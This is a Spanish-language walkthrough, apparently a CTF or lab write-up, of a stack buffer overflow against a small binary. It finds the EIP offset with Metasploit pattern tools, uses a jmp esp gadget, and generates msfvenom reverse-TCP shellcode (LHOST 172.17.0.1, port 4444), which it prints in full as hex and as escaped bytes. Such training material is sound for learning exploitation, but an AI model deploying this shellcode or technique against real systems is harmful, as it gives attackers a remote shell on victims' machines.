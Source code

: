 ![image](https://github.com/user-attachments/assets/5c13be39-0a58-492d-a59e-b95db4d991f7)

ahora creo una cadena con `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb` para enviarla al binario

```ruby
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
```

![image](https://github.com/user-attachments/assets/62b52040-65af-4683-942f-71d1a9f75935)

a continuacion se la envio al binario

![image](https://github.com/user-attachments/assets/b30df4e0-228b-4420-88d6-12b2c37937c4)

aqui observo la direccion del registro `eip` asi que ese valor se lo pasamos al siguiente exploit

```ruby
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x61413761
```

![image](https://github.com/user-attachments/assets/57981214-7747-4751-98ef-d7b9b7f4c98f)

obtenemos el valor `offset` que es de 22 byte, ahora testeo si obtengo el control del registro `eip`

![image](https://github.com/user-attachments/assets/0d4ac577-7af8-4eb5-baa6-0614d7e68c90)

logro entonces tomar el control sobre el registro `eip`, sabiendo esto ahora calculo la direccion de la funcion `jmp_esp` que es la que apunta al comienzo de la pila
para intentar incrustar una `shellcode` y debo intentarlo de esta forma ya que el tamano del buffer es muy pequeno para almacenar una `shellcode`

![image](https://github.com/user-attachments/assets/fcfaa5f5-0d80-401e-bb48-2ab8acd87da2)

aqui obtengo la direccion de memoria de la funcion `jmp_esp` a la cual apuntare en el registro `eip` para redirigir el flujo del programa al comienzo de la pila, ahora
confirmare que lo que envie despues de sobreescribir el `eip` se almacene al comienzo de la pila

![image](https://github.com/user-attachments/assets/8d2d5739-b59f-4f60-88f3-8bf3a7d8d543)

tal como pensaba, lo que envie luego de `eip` se va alojar al comienzo de la pila, ahora creare la `shellcode` que inyectare

```ruby
msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -b '\x00\x0a\x0d' -f hex #generamos la shellcode
```
```bash
bbc08f65e8d9ecd97424f45829c9b11231581283c004039881871d2945b03d1a3a6ca89e35739cf888f44e5da3cabddd8a4dc7b5a0bf3744d1bd37577d4bd6e71b1b48545798e3bb5a1fa1530b0f35cbbb60966955f60b3ff6812d0ff35c2d
```

obtenemos una cadena en hexadecimal la cual vamos a modificar para poder inyectarla al binario, la cadena modificada quedaria asi

```ruby
\xbb\xc0\x8f\x65\xe8\xd9\xec\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x12\x31\x58\x12\x83\xc0\x04\x03\x98\x81\x87\x1d\x29\x45\xb0\x3d\x1a\x3a\x6c\xa8\x9e\x35\x73\x9c\xf8\x88\xf4\x4e\x5d\xa3\xca\xbd\xdd\x8a\x4d\xc7\xb5\xa0\xbf\x37\x44\xd1\xbd\x37\x57\x7d\x4b\xd6\xe7\x1b\x1b\x48\x54\x57\x98\xe3\xbb\x5a\x1f\xa1\x53\x0b\x0f\x35\xcb\xbb\x60\x96\x69\x55\xf6\x0b\x3f\xf6\x81\x2d\x0f\xf3\x5c\x2d
```
